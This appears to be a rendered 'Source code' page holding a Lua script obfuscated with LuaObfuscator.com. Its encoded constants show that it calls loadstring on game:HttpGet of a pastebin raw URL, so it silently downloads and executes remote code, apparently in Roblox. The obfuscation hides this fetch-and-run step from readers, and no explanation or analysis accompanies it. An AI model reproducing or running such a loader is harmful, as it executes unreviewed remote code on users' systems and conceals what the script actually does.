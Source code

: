 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v80=0;while true do if (v80==0) then v19=v0(v3(v30,1,1));return "";end end else local v81=0;local v82;while true do if (v81==0) then v82=v2(v0(v30,16));if v19 then local v108=0;local v109;while true do if (1==v108) then return v109;end if (v108==0) then v109=v5(v82,v19);v19=nil;v108=1;end end else return v82;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v83=(v31/((5 -3)^(v32-(2 -(1 + 0)))))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -(555 + 64)))) + (932 -(857 + 74)))) ;return v83-(v83%(569 -(367 + 201))) ;else local v84=2^(v32-(928 -(214 + (1590 -(282 + 595))))) ;return (((v31%(v84 + v84))>=v84) and 1) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (1639 -(1523 + 114)) );v18=v18 + 2 + 0 ;return (v36 * (364 -108)) + v35 ;end local function v23() local v37=1065 -(68 + 997) ;local v38;local v39;local v40;local v41;while true do if (v37==(1271 -(226 + 1044))) then return (v41 * (73054774 -56277558)) + (v40 * 65536) + (v39 * (373 -(32 + 85))) + v38 ;end if (v37==(0 + (0 -0))) then v38,v39,v40,v41=v1(v16,v18,v18 + 1 + 2 );v18=v18 + 4 ;v37=(1770 -812) -(892 + 65) ;end end end local function v24() local v42=v23();local v43=v23();local v44=1 -0 ;local v45=(v20(v43,351 -(87 + 263) ,200 -(67 + 113) ) * (2^(24 + (13 -5)))) + v42 ;local v46=v20(v43,51 -30 ,23 + 8 );local v47=((v20(v43,32)==(3 -2)) and  -(953 -(802 + 150))) or (2 -1) ;if (v46==((0 + 0) -0)) then if (v45==(0 + 0)) then return v47 * (997 -(915 + (873 -(368 + 423)))) ;else v46=2 -1 ;v44=(0 -0) + 0 ;end elseif (v46==(2691 -(662 -(10 + 8)))) then return ((v45==((4566 -3379) -(1069 + 118))) and (v47 * ((2 -1)/0))) or (v47 * NaN) ;end return v8(v47,v46-(2237 -1214) ) * (v44 + (v45/((1 + 1)^(494 -(416 + 26))))) ;end local function v25(v48) local v49=0 -0 ;local v50;local v51;while true do if (v49==(1 + 0)) then v50=v3(v16,v18,(v18 + v48) -(1 -(0 + 0)) );v18=v18 + v48 ;v49=440 -(145 + 293) ;end if ((430 -(44 + 386))==v49) then v50=nil;if  not v48 then v48=v23();if (v48==0) then return "";end end v49=1487 -(998 + 488) ;end if (v49==(1 + (3 -2))) then v51={};for v90=1 + (0 -0) , #v50 do v51[v90]=v2(v1(v3(v50,v90,v90)));end v49=775 -(201 + 571) ;end if (v49==(1141 -((482 -366) + 1022))) then return v6(v51);end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0 -0 ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do if (v52==(1263 -(1091 + 171))) then local v88=(function() return 0;end)();while true do if (v88==(1 + 1)) then v52=(function() return 6 -4 ;end)();break;end if (v88~=(3 -2)) then else v59=(function() return {};end)();for v110= #"!",v58 do local v111=(function() return 374 -(123 + 251) ;end)();local v112=(function() return;end)();local v113=(function() return;end)();local v114=(function() return;end)();while true do if (v111~=(0 -0)) then else local v133=(function() return 0;end)();while true do if (v133==(698 -(208 + 490))) then v112=(function() return 0 + 0 ;end)();v113=(function() return nil;end)();v133=(function() return 1;end)();end if (v133~=(1 + 0)) then else v111=(function() return 1;end)();break;end end end if (v111~=(837 -(660 + 176))) then else v114=(function() return nil;end)();while true do if (v112~=(0 + 0)) then else local v166=(function() return 0;end)();while true do if (v166==(202 -(14 + 188))) then v113=(function() return v21();end)();v114=(function() return nil;end)();v166=(function() return 676 -(534 + 141) ;end)();end if (v166==1) then v112=(function() return 1 + 0 ;end)();break;end end end if (1~=v112) then else if (v113== #"[") then v114=(function() return v21()~=(0 + 0) ;end)();elseif (v113==2) then v114=(function() return v24();end)();elseif (v113== #"91(") then v114=(function() return v25();end)();end v59[v110]=(function() return v114;end)();break;end end break;end end end v88=(function() return 2;end)();end if (v88~=(0 + 0)) then else v57=(function() return {v54,v55,nil,v56};end)();v58=(function() return v23();end)();v88=(function() return 1 -0 ;end)();end end end if (v52==(2 -0)) then v57[ #"xxx"]=(function() return v21();end)();for v92= #"|",v23() do local v93=(function() return v21();end)();if (v20(v93, #"\\", #"\\")~=0) then else local v104=(function() return 0;end)();local v105=(function() return;end)();local v106=(function() return;end)();local v107=(function() return;end)();while true do if (v104==3) then if (v20(v106, #"19(", #"-19")== #",") then v107[ #"xnxx"]=(function() return v59[v107[ #"0836"]];end)();end v54[v92]=(function() return v107;end)();break;end if (v104~=(2 -1)) then else local v132=(function() return 0 + 0 ;end)();while true do if (v132~=(1 + 0)) then else v104=(function() return 398 -(115 + 281) ;end)();break;end if (v132==0) then v107=(function() return {v22(),v22(),nil,nil};end)();if (v105==(0 -0)) then local v168=(function() return 0;end)();local v169=(function() return;end)();while true do if (v168~=(0 + 0)) then else v169=(function() return 0 -0 ;end)();while true do if (v169~=0) then else v107[ #"gha"]=(function() return v22();end)();v107[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v105== #"!") then v107[ #"xnx"]=(function() return v23();end)();elseif (v105==(7 -5)) then v107[ #"-19"]=(function() return v23() -((869 -(550 + 317))^(22 -6)) ;end)();elseif (v105~= #"asd") then else local v175=(function() return 0;end)();local v176=(function() return;end)();while true do if (v175~=(0 -0)) then else v176=(function() return 0 -0 ;end)();while true do if (v176~=(285 -(134 + 151))) then else v107[ #"91("]=(function() return v23() -((1667 -(970 + 695))^16) ;end)();v107[ #"?id="]=(function() return v22();end)();break;end end break;end end end v132=(function() return 1 -0 ;end)();end end end if (2==v104) then if (v20(v106, #"[", #"{")~= #"<") then else v107[1992 -(582 + 1408) ]=(function() return v59[v107[2]];end)();end if (v20(v106,6 -4 ,2 -0 )== #">") then v107[ #"-19"]=(function() return v59[v107[ #"19("]];end)();end v104=(function() return 3;end)();end if (v104==(0 -0)) then v105=(function() return v20(v93,2, #"asd");end)();v106=(function() return v20(v93, #"?id=",1830 -(1195 + 629) );end)();v104=(function() return 1 -0 ;end)();end end end end for v94= #"]",v23() do v55,v94,v28=(function() return v53(v55,v94,v28);end)();end return v57;end if ((241 -(187 + 54))==v52) then v53=(function() return function(v99,v100,v101) local v102=(function() return 780 -(162 + 618) ;end)();local v103=(function() return;end)();while true do if (v102~=(0 + 0)) then else v103=(function() return 0;end)();while true do if (v103==(0 + 0)) then local v157=(function() return 0 -0 ;end)();local v158=(function() return;end)();while true do if ((0 -0)~=v157) then else v158=(function() return 0 + 0 ;end)();while true do if (0~=v158) then else local v171=(function() return 0;end)();while true do if (v171==0) then v99[v100-#"~" ]=(function() return v101();end)();return v99,v100,v101;end end end end break;end end end end break;end end end;end)();v54=(function() return {};end)();v55=(function() return {};end)();v56=(function() return {};end)();v52=(function() return 1;end)();end end end local function v29(v60,v61,v62) local v63=v60[(1740 -(17 + 86)) -(1373 + 263) ];local v64=v60[(689 + 313) -(451 + 549) ];local v65=v60[1 + 2 ];return function(...) local v66=v63;local v67=v64;local v68=v65;local v69=v27;local v70=1 -0 ;local v71= -(1 -(1257 -(1043 + 214)));local v72={};local v73={...};local v74=v12("#",...) -(1 + 0) ;local v75={};local v76={};for v85=0 -0 ,v74 do if ((v85>=v68) or (3200<=3134)) then v72[v85-v68 ]=v73[v85 + (342 -((486 -268) + 123)) ];else v76[v85]=v73[v85 + (1582 -(1535 + 46)) ];end end local v77=(v74-v68) + 1 + (1212 -(323 + 889)) ;local v78;local v79;while true do v78=v66[v70];v79=v78[1 + (0 -0) ];if ((v79<=3) or (3275==1804)) then if (v79<=(561 -(306 + 254))) then if (v79>((580 -(361 + 219)) + 0)) then v76[v78[3 -1 ]]=v78[1470 -(899 + (888 -(53 + 267))) ];else v76[v78[2 + 0 ]]();end elseif (v79==(4 -2)) then v76[v78[605 -(268 + 335) ]]=v62[v78[3]];else local v119=0 -0 ;local v120;local v121;local v122;local v123;while true do if ((v119==((66 + 224) -(60 + (396 -(122 + 44))))) or (1417>3629)) then v120=v78[2];v121,v122=v69(v76[v120](v13(v76,v120 + (573 -(426 + 146)) ,v78[3])));v119=1 + 0 ;end if (v119==((1870 -(15 + 398)) -((1264 -(18 + 964)) + 1174))) then v71=(v122 + v120) -(812 -(569 + 242)) ;v123=0 -0 ;v119=1 + 1 ;end if (v119==(1026 -(706 + 318))) then for v163=v120,v71 do v123=v123 + (1252 -(721 + 530)) ;v76[v163]=v121[v123];end break;end end end elseif (v79<=((2203 -927) -(945 + (1081 -755)))) then if (v79>(9 -5)) then local v124=v78[2 + 0 ];local v125=v76[v78[703 -(221 + 50 + (1614 -1185)) ]];v76[v124 + 1 + 0 ]=v125;v76[v124]=v125[v78[1504 -(1408 + 92) ]];else local v129=v78[1 + 1 ];v76[v129]=v76[v129](v13(v76,v129 + ((630 + 457) -(461 + 625)) ,v71));end elseif (v79<=(1294 -(993 + 295))) then do return;end elseif (v79==(1 + 6)) then local v134;local v135,v136;local v137;local v138;v76[v78[1173 -(418 + 753) ]]={};v70=v70 + 1 ;v78=v66[v70];v76[v78[(1 -0) + 1 ]]=v62[v78[1 + 0 + (852 -(20 + 830)) ]];v70=v70 + 1 ;v78=v66[v70];v76[v78[1 + (66 -(30 + 35)) ]]=v62[v78[1 + 2 ]];v70=v70 + 1 + 0 ;v78=v66[v70];v138=v78[531 -((532 -(116 + 10)) + 123) ];v137=v76[v78[1772 -(1749 + 20) ]];v76[v138 + 1 + 0 ]=v137;v76[v138]=v137[v78[1326 -(1249 + 73) ]];v70=v70 + 1 ;v78=v66[v70];v76[v78[1 + 1 ]]=v78[1148 -(466 + 679) ];v70=v70 + 1 ;v78=v66[v70];v138=v78[2];v135,v136=v69(v76[v138](v13(v76,v138 + (2 -(1 + 0)) ,v78[8 -5 ])));v71=(v136 + v138) -(1901 -(106 + 1794)) ;v134=0;for v160=v138,v71 do v134=v134 + 1 + 0 ;v76[v160]=v135[v134];end v70=v70 + 1 ;v78=v66[v70];v138=v78[2];v76[v138]=v76[v138](v13(v76,v138 + 1 + 0 ,v71));v70=v70 + (2 -1) ;v78=v66[v70];v76[v78[5 -3 ]]();v70=v70 + (115 -((742 -(542 + 196)) + 110)) ;v78=v66[v70];do return;end else v76[v78[586 -(57 + 527) ]]={};end v70=v70 + ((3061 -1633) -(41 + 405 + 981)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00077Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);

